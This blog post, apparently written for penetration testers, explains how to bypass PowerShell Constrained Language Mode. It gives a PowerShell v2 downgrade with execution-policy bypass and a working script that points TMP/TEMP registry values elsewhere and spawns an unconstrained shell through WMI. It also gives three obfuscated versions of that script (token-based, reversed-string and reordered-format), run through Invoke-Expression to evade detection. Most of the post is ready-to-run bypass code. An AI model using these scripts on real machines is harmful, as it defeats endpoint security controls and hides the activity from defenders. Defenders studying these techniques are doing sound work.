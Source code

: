 ```yaml
---
title:  "CLM Bypass"
date:   2021-10-17 19:12:00 +0000
categories: [techniques]
tags: [windows, powershell, bypass]
---
```


It is common during engagements to find that CLM (Constrained Language Mode) is configured on PowerShell as a SafeGuard or control against malicous activity.
This is a common misconception as there are many ways that CLM can be bypassed.
First check that CLM is in place by executing the following:

```
$ExecutionContext.SessionState.LanguageMode
```

If you want to set the Session to CLM from Full for testing then run the following however be aware that spawning a new session would spawn in full mode regardless if this is the default on your system.
I will leave it to the reader to do this.

```
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

Firstly, the most common way to bypass CLM is to simply downgrade to PowerShell version 2 if it is installed. You can do this by appending the '-version 2' argument.


```
powershell.exe -version 2
```

If you want to bypass the execution policy then append the following:

```
powershell.exe -version 2 -ExecutionPolicy bypass
```

Although this will likely work if PowerShell version 2 is installed alot of tools may not work to their full potential or simply not fit into your requirements using the legacy version.

There are tools out there to help ofcourse, these are usually execuable files which will touch disk and may not suit your needs.

The following method can be simply pasted into a PowerShell window and a new PowerShell session is spawned as either the current PowerShell Version, or if needed, you could change the version to any other (2,3,4,5,6,7)

Below is an example of bypassing CLM when Constrained Language mode is enabled by default.

<video width="380" height="340" controls>
  <source type="video/mp4" src="/videos/CLM-Bypass.gif"></source>
<p>Your browser does not support the video element.</p>
</video>

CLM Bypass Default
------------------

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Or if you want to change the PowerShell version then simply add the arguments needed such the below:

PowerShell Specific Version
---------------------------

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe -Version 2 -ExecutionPolicy bypass"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Token Based Obfuscated
----------------------

```
${C`U`RrtEmP} = ${enV:T`e`Mp}
${CUrRT`MP} = ${ENv:`T`mp}
${temp`B`YpAs`SPaTH} = ((("{0}{5}{3}{4}{1}{2}" -f 'C','wsYyKte','mp','Kw','indo',':Yy')) -RePlACe  'YyK',[cHar]92)
${TmPb`ypa`Ssp`Ath} = ((("{0}{1}{2}{3}" -f 'C:{0','}windows{','0}te','mp')) -F [cHAr]92)

&("{2}{1}{3}{0}"-f 'y','emPr','Set-It','opert') -Path ((("{0}{1}{2}{4}{3}"-f 'hkcu:','{0','}','ment','Environ'))-f [char]92) -Name ("{0}{1}"-f'T','mp') -Value "$TEMPBypassPath"
.("{3}{2}{4}{1}{0}"-f 'roperty','P','-It','Set','em') -Path ((("{0}{5}{6}{1}{3}{2}{4}"-f 'hk','NAtE','viro','n','nment','cu',':')) -creplacE'NAt',[cHAR]92) -Name ("{0}{1}"-f 'T','emp') -Value "$TMPBypassPath"

&("{0}{2}{4}{1}{3}" -f'In','Me','voke-W','thod','mi') -Class ("{2}{0}{3}{4}{1}"-f'i','s','w','n32_proce','s') -Name ("{0}{1}"-f'crea','te') -ArgumentList ("{3}{4}{1}{2}{0}" -f'l.exe','e','l','Powe','rsh')
&("{1}{0}" -f'eep','sl') 5


.("{2}{1}{0}{4}{3}"-f 'emPro','et-It','S','ty','per') -Path ((("{1}{2}{3}{0}{5}{4}"-f 'v','hk','cu:A','YlEn','nt','ironme')) -repLaCE ([cHAr]65+[cHAr]89+[cHAr]108),[cHAr]92) -Name ("{0}{1}"-f'T','mp') -Value ${cuRr`TMP}
.("{1}{0}{2}{3}"-f 'emPr','Set-It','opert','y') -Path ((("{2}{4}{3}{0}{1}"-f 'vironm','ent','hk','n','cu:4XQE')) -CREPLacE '4XQ',[cHar]92) -Name ("{1}{0}" -f 'emp','T') -Value ${cURr`T`Emp}
```

Reverse String Obfuscated
-------------------------

```
$0wN5  =  ")'x'+]31[diLLEHs$+]1[dIlLehS$ (&|)43]RaHC[,63]RaHC[,93]RaHC[,29]RaHC[  f-)'pmeTrr'+'uC}2{ eulaV- '+'p'+'m'+'e'+'T e'+'m'+'aN- }1{tn'+'emn'+'orivnE}0{'+':'+'uc'+'k'+'h'+'}'+'1{ htaP'+'-'+' y'+'tre'+'porPm'+'et'+'I'+'-'+'teS

p'+'mTrr'+'uC}2{ eula'+'V'+'- '+'pmT '+'emaN- }1{tnem'+'norivnE}'+'0{:uck'+'h}1{ htaP'+'- '+'ytrep'+'orPm'+'etI-teS'+'

kc'+'a'+'b t'+'i te'+'S'+'#
'+'

5'+' pe'+'els

'+'}3{e'+'x'+'e.ll'+'e'+'h'+'srew'+'oP}3{ tsiLtne'+'m'+'ug'+'rA- e'+'taerc '+'emaN-'+' '+'ssec'+'orp_23'+'n'+'iw'+' ss'+'a'+'lC-'+' d'+'ohte'+'MimW-e'+'k'+'o'+'vnI
'+'

}'+'3{h'+'taPs'+'sapyBPMT}'+'2{}3{'+' eulaV- pm'+'e'+'T e'+'maN'+'- '+'}'+'1{t'+'nem'+'nori'+'vnE}0'+'{:uck'+'h}1'+'{ '+'hta'+'P- y'+'trep'+'orPm'+'e'+'t'+'I'+'-teS'+'

}'+'3'+'{hta'+'P'+'s'+'s'+'ap'+'yBPMET}2{}3{ e'+'ula'+'V-'+' pmT'+' e'+'maN-'+' '+'}1'+'{tne'+'mn'+'orivnE'+'}0{:uckh}1{ htaP- '+'y'+'t'+'r'+'e'+'po'+'r'+'Pmet'+'I-'+'t'+'eS'+'


}3{p'+'m'+'et'+'}'+'0'+'{swod'+'n'+'i'+'w}0'+'{:C}3{ ='+' h'+'ta'+'Pssap'+'y'+'BPMT}'+'2{'+'

'+'}'+'3'+'{'+'pmet}0{'+'swodniw}0'+'{:'+'C}3{ '+'= h'+'taPs'+'sa'+'pyBPM'+'ET'+'}2{'+'

'+'pm'+'t:vne'+'}2'+'{ '+'='+' pmT'+'rruC}'+'2'+'{

pme'+'t:vne}2{'+' ='+' p'+'me'+'Trr'+'uC'+'}2{'(( ";.( $Env:coMSPeC[4,24,25]-jOIn'') ( "$( sv 'OFS' '' ) " +[STrIng]( (  gEt-VaRiAbLe  ("0w"+"N5") ).vAlue[-1 ..-((  gEt-VaRiAbLe  ("0w"+"N5") ).vAlue.lENGth )]) +"$(set  'ofs'  ' ' ) ")
```

Obfuscated String Reorder
-------------------------

```
(("{80}{106}{34}{40}{49}{45}{120}{29}{125}{124}{65}{87}{90}{70}{110}{41}{71}{112}{118}{96}{69}{8}{82}{103}{122}{119}{21}{14}{117}{5}{51}{55}{24}{94}{95}{83}{98}{88}{84}{53}{105}{99}{6}{31}{73}{32}{33}{77}{78}{23}{50}{48}{17}{109}{25}{111}{9}{100}{115}{104}{97}{37}{62}{102}{63}{75}{1}{22}{93}{66}{27}{57}{7}{44}{4}{38}{56}{26}{60}{30}{101}{13}{18}{52}{10}{114}{68}{3}{43}{86}{19}{15}{92}{108}{89}{59}{12}{76}{20}{123}{81}{46}{0}{35}{107}{16}{58}{36}{116}{113}{47}{61}{74}{72}{85}{67}{121}{54}{42}{79}{64}{2}{39}{28}{11}{91}"-f'1 -Nam','l',' -Value ','

#S','lass w','hTMPB','v','nvoke-WmiMeth','C:A','Path','hell.exefkI','rr','kcu:AZM','I','kI
4','Property -','rrTm','assP','Pow','tem','viron','tempf','ue fkI45hTMPB',' fkI4','=','-ItemPr','ocess -N','I
','hCu','env:t','-Argume','ir','-N','a','em','e Tmp -V','Se','ntMW','in32','45','p','
45hT',' ','et it ba','od -C',' 45','W','rope','EMPByp',' =','5hT','ypassPa','ers','emProperty -Path ','tMW1','th ','_pr','

I','p
','MW1h','ame create ','r','1 -N','emp -','emp','rrTm','Pathfk','cu:',' 5','I',':tm','EMPBy','1h','onmentMW1 ','ty -Path MW','Va','En','me Tmp -','Value','-Name T','45','tM','Z','Mwi','
Set-It','k','ck
Set-I','p = 45he','

','h ','nv','Temp','P','ypass',' fkIC:A','Z','th = fk','ronme','ndowsAZMtempfkI
','1hkcu:AZMEn',' ','ntList fk','ame T','Mwi','vi','MW','hCurrT','alue 45hCu','at','athfkI
Set','p
','operty -','p','mP','
sleep','MW1hkcu:AZMEn','t-Ite','5','assPa','sAZM','h','AZMEnvironmen','ndow','men','hCu','emp
45')).ReplaCE('MW1',[STRiNg][CHAR]39).ReplaCE('fkI',[STRiNg][CHAR]34).ReplaCE('45h','$').ReplaCE(([CHAR]65+[CHAR]90+[CHAR]77),'\') |& ( $pshoMe[4]+$pSHOme[34]+'X')
```

